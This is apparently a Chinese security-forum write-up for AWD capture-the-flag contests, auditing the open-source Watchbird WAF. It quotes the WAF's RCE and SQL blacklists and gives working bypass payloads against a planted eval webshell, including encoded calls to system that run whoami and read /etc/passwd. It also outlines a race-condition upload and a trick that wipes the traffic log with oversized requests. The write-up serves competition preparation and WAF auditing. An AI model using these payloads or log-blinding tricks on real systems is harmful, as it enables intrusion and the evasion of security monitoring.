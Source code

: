 简介
==

众所周知，AWD攻防是一个节奏非常快，时间比较紧张的比赛模式。而如果在这种情况下，一些队伍在自己的靶机上部署了waf和流量监控脚本，通常来说是很难在比赛过程中绕过的。于是提前对这些应用广泛的开源waf进行审计，拿到一些绕过的trick，可以在比赛中获取优势。

**Watchbird项目地址：<https://github.com/leohearts/awd-watchbird>**

测试过程
====

先给大家展示一下这个waf的后台日志部分：

在右下角绿色区域，是记录不受拦截的流量日志（正常流量或绕过waf的流量）；  
其他三个划了红圈的区域，则是拦截到攻击的流量。  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-bc7005762d489ceea2fe23fd507e1f11e88297fe.png)

这边就以藏有一句话木马后门\\&lt;?php eval($\_GET\['file'\]); ?&gt;，且包含了watchbird的一个index.php为例子，展开如下测试。

RCE黑名单突破绕过
----------

如下，这是源码中对rce的黑名单，可以看到绝大多数常用的危险函数都被过滤了，包括用于编码转换的base64和rot13的函数：

```php
public $rce_blacklist = "/\`|var_dump|str_rot13|serialize|base64_encode|base64_decode|strrev|eval\(|assert|file_put_contents|fwrite|curl_exec\(|dl\(|readlink|popepassthru|preg_replace|preg_filter|mb_ereg_replace|register_shutdown_function|register_tick_function|create_function|array_map|array_reduce|uasort|uksort|array_udiff|array_walk|call_user_func|array_filter|usort|stream_socket_server|pcntl_exec|passthru|exec(|system(|chroot\(|scandir\(|chgrp\(|chown|shell_exec|proc_open|proc_get_status|popen\(|ini_alter|ini_restore|ini_set|LD_PRELOAD|ini_alter|ini_restore|ini_set|base64 -d/i";
```

但是如果根据黑名单去过滤的话，一旦忘记了ban掉某个危险函数（像这个黑名单里缺少了putenv()之类的函数），或者攻击者在格式上有所突破的话（类似HTTP分段请求注入，也可以绕过很多waf），那就可以被随意攻击了。

### Trick 1：取反绕过

执行system('whoami');

```php
payload:?file=(~%8C%86%8C%8B%9A%92)(~%88%97%90%9E%92%96);
```

可以看到成功在前端输出whoami的执行结果，并且后端日志检测为安全。  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-594bccf774b440e7bd65a44e7ff23a8ce630af4a.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-cc624f52a5fd55d7178f8c7107f8a2d80080d52a.png)

### Trick 2：字符串拼接绕过

```php
payload: ?file=(sy.(st).em)(whoami);
```

*图略，结果同Trick1，前端输出结果，后端不会判断为恶意攻击。*

### Trick 3：内联注释绕过

有点像绕mysql时候，加/*\\*/之类的字符绕过检测。

```php
payload: ?file=(sy./\*caixukun\*/(st)/\*caixukun\*/.em)/\*caixukun\*/(wh./\*caixukun\*/(oa)/\*caixukun\*/.mi);
```

*图略，结果同Trick1，前端输出结果，后端不会判断为恶意攻击。*

### Trick 4：对函数进行编码转换绕过

```php
payload:?file="\x73\x79\x73\x74\x65\x6d"("cat /etc/passwd");
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-4f7c1bca5a652a8b6b53eba315f04d525c47e7c9.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-ed91014e710bf471cad524e1f8301829105f0323.png)  
给大家留一个编码转换脚本：

```python
def string_to_hex_str(s):  
    # 编码为字节，然后格式化每个字节为十六进制字符串，并连接它们  
    return ''.join('\\x{:02x}'.format(b) for b in s.encode('utf-8'))  

s = "system"  
hex_encoded_str = string_to_hex_str(s)  
print(hex_encoded_str) # 输出: \x73\x79\x73\x74\x65\x6d
```

SQL注入黑名单突破绕过
------------

这是sql语句的黑名单，相对rce黑名单来说，相信大家能感觉出来它有点形同虚设：

```php
public $sql_blacklist = "/drop |dumpfile\b|INTO FILE|union select|outfile\b|load_file\b|multipoint\(/i";
```

比如union select，是放在一起过滤而不是分开检测，在两个单词中间多加几个空格甚至都能绕过。

文件上传点的理论突破
----------

这个waf的检测恶意文件使用了白名单，比较难绕，但是可以注意到，他是先上传文件，然后再检测，检测到有问题再删除。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-32aa1a49aefe9d2871107c9b4096be4aebb14fff.png)  
于是可以用条件竞争的方式，去试着边写一个能生成新木马的php文件，边对它进行访问，最后成功创建一个新shell。

但是这只存在于理论，因为一是awd时间比较短，条件竞争产出比较慢，可能来不及成功；二是该waf自带一个ddos防御功能，在爆破的时候七成以上数据包都会被waf拦截掉。

绕过流量日志的监测
---------

可以看到，单个日志大小最多为4w个字符  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-7a4c425ddbb9727a32e6f8793c73808b4fc054c6.png)

再来到源码533行，可以看到在记录日志时候，如果日志大小超出了上述最大值，就会进行一次全部删除。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-36e324e549c5c2c3fdc3430c308bb0c3e55ca688.png)  
根据这个特性，如果我们的测试payload数据包大于这个值，填入很多很大的脏数据，那它的后台将不会显示有这条日志记录（但是waf对关键词还是照样匹配拦截的）。

具体效果如下：我用bp抓包，包里放一堆python生成的脏数据，点击发送  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-741ca93968c49b0e5140f26c9b5a8b4790aac74f.png)

可以看到日志后台直接被致盲，不会记录任何东西

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-153de56dc72658ecd70d9ec91f6e47e36d1b14a5.png)

总结
==

比赛过程中如果遇到这样的watchbird，可以直接拿本文的思路去试试。  
类似这样基于黑白名单的waf，再加上项目年久失修（虽然也就一两年），往往突破口还是比较多的，所以现在正经大厂商的waf都在往语义识别，AI识别上靠拢。